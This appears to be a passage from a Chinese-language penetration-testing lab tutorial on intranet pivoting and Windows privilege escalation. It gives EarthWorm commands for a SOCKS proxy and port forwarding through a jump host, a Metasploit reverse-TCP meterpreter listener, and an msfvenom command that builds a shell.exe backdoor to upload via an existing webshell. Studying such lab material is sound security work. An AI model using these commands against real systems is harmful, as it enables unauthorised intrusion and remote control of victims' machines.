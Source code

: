 它的常用命令如下：

复制代码

```
# 在目标机器中开启SOCKS代理

ew -s ssocksd -l 888

# 在跳板机上执行如下命令实现数据透传到目标机器上，即将1080端口数据转发到目标IP的888端口上

ew -s lcx_tran -l 1080 -f {目标机器IP} -g 888
```

### 权限提升

有时我们利用 Web 漏洞拿到的系统权限是有限制的，为了获取更高的权限，我们就常常使用一些提权的利用方法来实现，下面介绍几种在 Windows 平台下比较常用的提权方法。

> 补充：为方便本地虚拟机与主机互联测试，我修改了原靶场虚拟机的 IP 地址，将192.168.52.xx 都更改为 192.168.69.xx。

#### 1.利用系统/软件漏洞提权

操作系统本身也有一些漏洞，特别是内核漏洞，常常用来帮助攻击者拿到更高的权限。还有一些拥有驱动程序的软件，比如杀毒软件，这些软件的权限都比较高，如果存在漏洞被利用，也可用于提权。

下面以靶场为例来实践练习下，先在攻击者本地开启监听端口，以等待后门回连：

复制代码

```
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST 192.168.69.1 ＃攻击者IP

LHOST => 192.168.69.1

msf5 exploit(multi/handler) > set LPORT 4444

LPORT => 4444

msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.69.1:4444
```

然后生成回连后门程序 shell.exe，上传到目标服务器（已获得 webshell 的服务器）并运行：

复制代码

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.52.133 LPORT=443 -f exe -o shell.exe
```

利用成功后获得系统 shell 权限：
